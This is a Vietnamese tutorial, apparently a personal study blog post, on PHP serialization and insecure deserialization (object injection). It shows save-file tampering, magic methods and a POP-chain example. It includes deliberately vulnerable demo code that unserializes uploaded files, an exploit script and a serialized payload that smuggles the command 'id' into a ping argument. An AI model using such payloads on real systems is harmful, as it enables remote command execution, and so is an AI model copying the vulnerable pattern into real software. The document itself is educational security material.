Mình viết bài viết này để ghi lại những gì mình đã học được về lỗ hổng **PHP Deserialization** nhằm mục đích ôn tập và củng cố kiến thức. Nếu có gì sai sót mong các bạn góp ý với mình.

## 1. Tìm hiểu về Serialization và Deserialization

Trước khi tìm hiểu về lỗ hổng PHP Deserialization, mình sẽ tìm hiểu về hai thuật ngữ **Serialization** và **Deserialization** trước.

- **Serialization:** Là quá trình chuyển đổi một đối tượng thành định dạng dữ liệu như: chuỗi byte, JSON, XML, ... nhằm dễ dàng lưu trữ và truyền dữ liệu giữa các ứng dụng để phục vụ nhiều mục đích khác nhau.
- **Deserialization:** Là quá trình ngược lại với **Serialization**, thực hiện chuyển các định dạng dữ liệu trên thành đối tượng ban đầu.

Minh hoạ quá trình **Serialization** và **Deserialization**:



### 1.1. Quá trình Serialization trong PHP

Trong PHP, người dùng được cung cấp một hàm gọi là `serialize()` để thực hiện quá trình **Serialization**.



➡️ Hàm `serialize()` này sẽ chuyển hoá trạng thái của một đối tượng thành một chuỗi dữ liệu có thể lưu trữ hoặc truyền đi.

- Ví dụ: Thực hiện serialize đối tượng `Student` có các thuộc tính như sau:

```php
class Student {
    private $id;
    private $fullName;
    private $age;
    private $gender;

    /**
     * @param $id
     * @param $fullName
     * @param $age
     * @param $gender
     */
    public function __construct($id, $fullName, $age, $gender)
    {
        $this->id = $id;
        $this->fullName = $fullName;
        $this->age = $age;
        $this->gender = $gender;
    }
}

$student = new Student(1, 'Lê Hoàng Minh', 21, 'Male');
echo serialize($student);
```

- Kết quả:

```php
O:7:"Student":4:{s:11:"Studentid";i:1;s:17:"StudentfullName";s:15:"Lê Hoàng Minh";s:12:"Studentage";i:21;s:15:"Studentgender";s:4:"Male";}
```

ℹ️ Chuỗi dữ liệu nhận được sau quá trình **serialize** được gọi là **serialize data**.

🛕 Cấu trúc `serialize data`: `	
O:LENTH_OF_NAME:"CLASS_NAME":NUMBER_OF_PROPERTIES:{PROPERTIES}`

| Kiểu dữ liệu          | Ký hiệu | Ví dụ biến                        | Giải thích                                               | Chuỗi serialize                                                                         |
| --------------------- | ------- | --------------------------------- | -------------------------------------------------------- | --------------------------------------------------------------------------------------- |
| **Boolean**           | `b`     | `true`                            | `b:1;`                                                   | `b` là kiểu boolean, `1` là giá trị `true`.                                             |
|                       |         | `false`                           | `b:0;`                                                   | `0` là giá trị `false`.                                                                 |
| **Integer**           | `i`     | `42`                              | `i:42;`                                                  | `i` là kiểu integer, `42` là giá trị số nguyên.                                         |
| **Float**             | `d`     | `3.14`                            | `d:3.14;`                                                | `d` là kiểu float, `3.14` là giá trị số thực.                                           |
| **String**            | `s`     | `"Hello"`                         | `s:5:"Hello";`                                           | `s` là kiểu string, `5` là độ dài chuỗi, `"Hello"` là giá trị chuỗi.                    |
| **Array**             | `a`     | `[1, 2, 3]`                       | `a:3:{i:0;i:1;i:1;i:2;i:2;i:3;}`                         | `a` là kiểu array, `3` là số phần tử, tiếp theo là các cặp khóa-giá trị.                |
| **Associative Array** | `a`     | `["name" => "Minh", "age" => 21]` | `a:2:{s:4:"name";s:4:"Minh";s:3:"age";i:21;}`            | `a` là kiểu array, `2` là số phần tử, tiếp theo là các cặp khóa-giá trị.                |
| **Object**            | `O`     | (Đối tượng `Person`)              | `O:6:"Person":2:{s:4:"name";s:4:"Minh";s:3:"age";i:21;}` | `O` là kiểu object, `6` là độ dài tên lớp, `"Person"` là tên lớp, `2` là số thuộc tính. |
| **Null**              | `N`     | `null`                            | `N;`                                                     | `N` đại diện cho giá trị null.                                                          |

📝 **Note:** Trong PHP, khi một thuộc tính của một class là `private` thì khi thực hiện quá trình **serialize** sẽ được PHP thêm tên class vào trước tên thuộc tính đó (Ví dụ: Thuộc tính `id` của class `Student` là `private` sau khi **serialize** thì tên sẽ là `Studentid`).

Bạn có thể tìm hiểu thêm về hàm `serialize()` trong PHP tại [đây](https://www.php.net/manual/en/function.serialize.php).

### 1.2. Quá trình Deserialization trong PHP

Trong PHP cũng cung cấp cho người dùng hàm `unserialize()` để thực hiện quá trình **Deserialization**.



➡️ Hàm `unserialize()` sẽ chuyển hoá một chuỗi dữ liệu đã được **serialize** về một value của PHP.

- Ví dụ: Sử dụng hàm `unserialize()` để đưa chuỗi dữ liệu vừa **serialize** ở ví dụ trên về đối tượng ban đầu.

```php
class Student {
    // Giống ví dụ trên
}

$student = new Student(1, 'Lê Hoàng Minh', 21, 'Male');
$serialize_data = serialize($student);
$obj_serialized_data = unserialize($serialize_data);

echo "<pre>";
print_r($obj_serialized_data);
echo "</pre>";
```

- Kết quả:

```php
Student Object
(
    [id:Student:private] => 1
    [fullName:Student:private] => Lê Hoàng Minh
    [age:Student:private] => 21
    [gender:Student:private] => Male
)
```

Bạn có thể tìm hiểu thêm về hàm `unserialize()` trong PHP tại [đây](https://www.php.net/manual/en/function.unserialize.php).

## 2. Lỗ hổng PHP Deserialization

### 2.1. Tìm hiểu về lỗ hổng PHP Deserialization

- Lỗ hổng **PHP Deserialization** (hay còn được gọi là **PHP Object Injection**) xảy ra khi dữ liệu không tin cậy (**untrusted data**) rơi vào hàm `unserialize()` giúp cho kẻ tấn công có thể kiểm soát một phần hoặc hoàn toàn đối tượng được tái tạo từ quá trình **Deserialize** dẫn đến việc kẻ tấn công thay đổi thuộc tính, class hoặc có thể tạo ra một luồng thực thi mới.

- Hậu quả của lỗ hổng này rất đa dạng (SQL Injection, Path Traversal, OS Command Injection, ...) vì nó phụ vào mẫu code có sẵn của chương trình.

### 2.2. Khai thác lỗ hổng PHP Deserialization

#### 2.2.1. Sửa đổi thuộc tính và class của đối tượng

- Đây là kĩ thuật khai thác lỗ hổng **PHP Deserialization** cơ bản nhất, kẻ tấn công có thể tuỳ ý thay đổi thuộc tính và class của đối tượng theo ý mình.
- Ví dụ: Ta có một game `Pokemon` cho phép save file chứa thông tin nhân vật xuống máy.

  - File `pokemon.sav` chứa thông tin nhân vật có nội dung như sau:

  ```
  O:7:"Trainer":2:{s:4:"name";s:5:"Kaito";s:7:"pokemon";O:7:"Pokemon":4:{s:4:"name";s:11:"Kaito's Pet";s:4:"type";s:9:"bulbasaur";s:6:"health";i:139;s:6:"damage";i:55;}}
  ```

  - Thuộc tính `health` và `damage` chính là máu và damage của con pokemon. Ta hoàn toàn có thể sửa hai thuộc tính này thành `99999999999` để buff sức mạnh cho con pokemon mà không cần đi đánh quái nhỏ.
  - File `pokemon.sav` sau khi được sửa:

  ```
  O:7:"Trainer":2:{s:4:"name";s:5:"Kaito";s:7:"pokemon";O:7:"Pokemon":4:{s:4:"name";s:11:"Kaito's Pet";s:4:"type";s:9:"bulbasaur";s:6:"health";i:99999999999;s:6:"damage";i:99999999999;}}
  ```

  - Game cho phép người chơi có thể tải file lưu thông tin nhân vật lên, vậy chỉ cần load file vừa chỉnh sửa lên lại game. Và đây là kết quả:

  

  - Dưới đây là đoạn code xử lý chức năng **Load Game**:

  ```php
  if (isset($_GET["action"])) {
      if ($_GET["action"] == "save") {
          if (!isset($_SESSION["trainer"]))
              die('{"msg": "You havent started the game yet"}');

          $message = serialize($_SESSION["trainer"]);
          // Tải về thành file pokemon.sav
          // Reference: https://stackoverflow.com/questions/13279801/how-can-i-download-a-string-to-the-browser-using-php-not-a-text-file
          header('Content-Type: application/octet-stream');
          header("Content-disposition: attachment; filename=pokemon.sav");
          header("Content-Length: " . strlen($message));
          echo $message;
      } else if ($_GET["action"] == "load") {
          if (isset($_FILES["data"])) {
              $data = file_get_contents($_FILES["data"]["tmp_name"]);
              // Xử lý khi unserialize bị lỗi
              // Reference: https://stackoverflow.com/questions/12684871/how-to-catch-unserialize-exception
              $trainer = @unserialize($data);
              if ($trainer == null) {
                  echo "Something went wrong";
              } else {
                  $_SESSION["trainer"] = $trainer;
                  echo "Load successfully";
              }
          } else {
              echo "Empty data";
          }
      }
  }
  ```

#### 2.2.2. Magic Methods trong Object-Oriented Programming (OOP)

Trước khi tìm hiểu về kỹ thuật khai thác lỗ hổng **PHP Deserialization** tiếp theo, mình sẽ tìm hiểu về các Magic Methods trong OOP trước.

**Magic Methods** trong OOP của PHP là các phương thức đặc biệt được bắt đầu bằng hai dấu gạch dưới `__`. Các phương thức này sẽ được PHP tự động gọi trong các trường hợp đặc biệt, chẳng hạn như: khi một đối tượng được khởi tạo, khi đối tượng được sử dụng như một chuỗi,... Dưới đây là một số **Magic Methods** phổ biến trong PHP.

1. **\_\_construct():**



- Hàm `__construct()` được sử dụng rất thường xuyên trong lập trình OOP.
- Hàm này giúp chúng ta khởi tạo thuộc tính của một đối tượng.
- PHP sẽ tự động gọi hàm này khi tạo đối tượng từ một lớp.
- Ví dụ:

```php
class Student {
    private $id;
    private $fullName;
    private $age;
    private $gender;

    /**
     * @param $id
     * @param $fullName
     * @param $age
     * @param $gender
     */
    public function __construct($id, $fullName, $age, $gender)
    {
        $this->id = $id;
        $this->fullName = $fullName;
        $this->age = $age;
        $this->gender = $gender;

        echo "__construct function is called";
    }
}

$student = new Student(1, 'Lê Hoàng Minh', 21, 'Male');
```

- Kết quả:



2. **\_\_destruct():**



- Hàm `destruct()` sẽ được tự động gọi khi đối tượng trong chương trình không còn được tham chiếu đến nữa.
- PHP sẽ tự động gọi mọi hàm `__destruct()` để huỷ tất cả các class còn tồn tại sau khi hoàn tất chương trình.
- Quá trình trên được gọi là **Clean up**.
- Ví dụ:



3. **\_\_toString():**



- Hàm `__toString()` sẽ tự động được gọi (với điều kiện phải định nghĩa hàm này trong class) khi muốn in một Object ra màn hình dưới dạng chuỗi.
- Ví dụ:



Bạn có thể tìm hiểu các Magic Methods tại [đây](https://www.php.net/manual/en/language.oop5.magic.php).

#### 2.2.3. Kỹ thuật tấn công POP (Property Oriented Programming)

Kỹ thuật tấn công **POP Chain** hay còn được gọi là **Code Reuse Attack** là một kỹ thuật liên quan đến việc tái sử dụng các đoạn code của chương trình (còn gọi là **gadget**) để liên kết chúng thành một chuỗi thực thi (**chain**) đồng thời kết với việc thay đổi thuộc tính của các đối tượng để **can thiệp vào luồng hoạt động của chương trình**.



Kỹ thuật này sẽ tận dụng những Magic Methods (những method tự động được gọi trong các trường hợp đặc biệt) kết hợp với những sink nguy hiểm như: `system()`, `file_get_content()`, `include()`, `unlink()`,... để thực hiện tấn công vào ứng dụng.

Bạn có thể tham khảo thêm về các hàm nguy hiểm trong PHP tại [đây](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720).

**Ví dụ:** Một ứng dụng cho phép người dùng load một file chứa thông tin các sinh viên lên hệ thống có đoạn code xử lý như sau:

```php
case 'load':
        $data = file_get_contents($_FILES["data"]["tmp_name"]);
        $students_data = explode("|", $data);
        $students = array();
        for ($idx = 0; $idx < count($students_data); $idx = $idx + 2) {
            $key = $students_data[$idx];
            $value = $students_data[$idx + 1];
            // Xử lý khi unserialize bị lỗi
            // Reference: https://stackoverflow.com/questions/12684871/how-to-catch-unserialize-exception
            $value = unserialize($value);
            $students[$key] = $value;
            $_SESSION["students"] = $students;
        }
        echo "Loaded";
        echo '<meta http-equiv="refresh" content="1;url='. $_SERVER['PHP_SELF']. '">';
        die();
        break;
```

Chương trình sẽ đọc dữ liệu từ file rồi gán vào biến `$data`. Sau quá trình xử lý, dữ liệu trong biến `$data` sẽ được chuyển về dạng mảng và lưu ở biến `$students_data`. Từng phần tử trong mảng `$students_data` sẽ được duyệt qua vòng lặp `for` và gán key, value lần lượt vào các biến `$key` và `$value`. Biến `$value` sẽ được deserialize để tái tạo lại đối tượng ban đầu, chương trình sẽ lưu giá trị đối tượng đó vào mảng `$students` rồi thêm mảng đó vào `SESSION` với key là `students`. Sau đó, chương trình sẽ lấy `SESSION['students']` ra mảng các sinh viên để hiển thị ra giao diện.



Trong chương trình có một class có tên là `Router` có chứa một sink nguy hiểm là `system()` có đoạn mã như sau:

```php
<?php
class Router
{
    public $host;

    public function __construct($host)
    {
        $this->host = $host;
    }

    public function __toString()
    {
        return system("ping " . $this->host);
    }
}
```

Do dữ liệu không tin cậy (untrusted data) rơi vào trong quá trình deserialize ở chức năng `load file` ở đoạn mã: `$value = unserialize($value);` và trong chương trình có sẵn class `Router` chứa một sink nguy hiểm trong PHP là `system()` kết hợp với magic method `__toString()` sẽ tự động được gọi khi đối tượng được hiển thị dưới dạng một chuỗi cho nên trong trường hợp này kẻ tấn công có thể kiểm soát luồng thực thi của chương trình để bắt chương trình thực hiện câu lệnh của hệ điều hành.

Dưới đây là đoạn mã exploit chương trình trên:

```php
<?php
# STEP 1: Create class Router
class Router
{
    public $host;

    public function __construct($host)
    {
        $this->host = $host;
    }

    public function __toString()
    {
        return system("ping " . $this->host);
    }
}

# STEP 2: Create object Router and manipulate property
$payload = new Router("8.8.8.8; id");

# STEP 3: Generate serialize data
echo serialize($payload);
```

➡ Payload: `0|O:6:"Router":1:{s:4:"host";s:11:"8.8.8.8; id";}`.

Và đây là kết quả khi ta upload file chứa payload lên hệ thống.



Bạn cũng có thể sử dụng tool [PHPGGC](https://github.com/ambionics/phpggc) để tạo payload với những gadgets chain đã được tìm thấy trong nhiều thư viện.

## 3. References

- [CBJS](https://cyberjutsu.io/)
- [https://nhattruong.blog/2022/11/18/php-object-injection-a-k-a-php-insecure-deserialization/](https://nhattruong.blog/2022/11/18/php-object-injection-a-k-a-php-insecure-deserialization/)
- [https://hackmd.io/@chuong/insecure-deserialization-trong-php](https://hackmd.io/@chuong/insecure-deserialization-trong-php)
